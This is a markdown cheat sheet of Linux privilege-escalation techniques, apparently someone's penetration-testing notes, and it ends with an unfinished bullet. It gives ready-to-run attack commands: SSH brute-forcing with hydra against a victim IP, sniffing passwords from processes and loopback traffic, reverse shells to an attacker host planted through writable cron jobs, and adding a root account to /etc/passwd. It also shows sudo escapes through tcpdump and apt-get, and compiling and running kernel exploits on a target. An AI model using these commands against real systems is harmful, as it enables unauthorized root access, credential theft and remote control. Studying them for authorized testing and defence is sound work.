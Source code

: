 # Linux Privilege Escalation

## Manual enumeration

Commands:
- `id`
- `cat /etc/passwd`
- `hostname`
- `cat /etc/issue`
- `cat /etc/os-release`
- `uname -a`
- `ps aux`
- `ip a`, `ifconfig`
- `route`, `routel`
- `ss -anp`, `netstat -anp`
- `cat /etc/iptables/rules.v4`
- `ls -lah /etc/cron*`
- `crontab -l`
- `sudo crontab -l`
- `dpkg -l`
- `find / -writable -type d 2> /dev/null`
- `cat /etc/fstab`
- `mount`
- `lsblk`
- `lsmod`
- `/sbin/modinfo some_kernel_module`
- `find / -perm -u=s -type f 2> /dev/null`
- `find / -perm -g=s -type f 2> /dev/null`

## Automated enumeration

Initial baseline:
```
/usr/bin/unix-privesc-check
```
Check for example writable config files.

Other tools:
- LinEnum: https://github.com/rebootuser/LinEnum
- LinPeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

## Credentials

### Hidden in text files

Check:
- `env`
- `cat .bashrc`
- `su - root`
- `sudo -l`

### Brute force ssh with password hints

With a hint of password:
```
crunch 19 19 -t Hint_Of_Password%%% > wordlist
hydra -l user -P wordlist $VictimIP -t 4 ssh -V
```

### Hidden passwords in Services

```
watch -n1 "ps aux | grep pass | grep -v grep | fold -s"
sudo tcpdump -i lo -A | grep "pass"
```

## Cron jobs

If the cron job is writeable, add a reverse shell:
```
bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc $AttackerIp $AttackerPort > /tmp/f
```
Rshells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Passwd file

```
openssl passwd passwordtohash
echo "newadmin:somehashstring:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Capabilities

References:
- https://man7.org/linux/man-pages/man7/capabilities.7.html
- https://gtfobins.github.io/
```
/usr/sbin/getcap -r / 2> /dev/null
```

## SUID

Source: https://gtfobins.github.io/
```
find / -perm /6000 -exec ls -ld {} \; # setuid + setgid
grep Uid /proc/some_proc_number/status
ls -asl /usr/bin/some_binary
```

## Sudo

Check the commands usable with `sudo`:
```
sudo -l
```
then try to elevate privileges with them with [GTFObins](https://gtfobins.github.io/). For example:
- `tcpdump`: https://gtfobins.github.io/gtfobins/tcpdump/#sudo
```
COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```
Check possible error messages in `/etc/var/messages`.
- `apt-get`: https://gtfobins.github.io/gtfobins/apt-get/#sudo
```
hackeduser@hackedtarget $: sudo apt-get changelog apt
```
and in `less`:
```
!/bin/sh
```
Check the escalation with the `id` command.

## Kernel vulnerabilities

Retrieve the kernel version and try to find an exploit on [exploitdb](https://www.exploit-db.com/):
- kernel version:
```
cat /etc/issue
uname -r
arch
```
- `searchsploit` command:
```
searchsploit -u
searchsploit "Linux kernel x.y.z privilege escalation" | grep -v ' < a.b.c'
```
- run the exploit:
```
cp /usr/share/exploitdb/exploits/linux/local/exploin_number.c ./num.c
gcc num.c
scp a.out hackeduser@TargetIp:
./a.out
```
Check with the `id` command.

## Misc

### Other resources

- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Privilege Escalation.md
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation

### Examples of exploits

- PwnKit: https://github.com/ly4k/PwnKit
- 

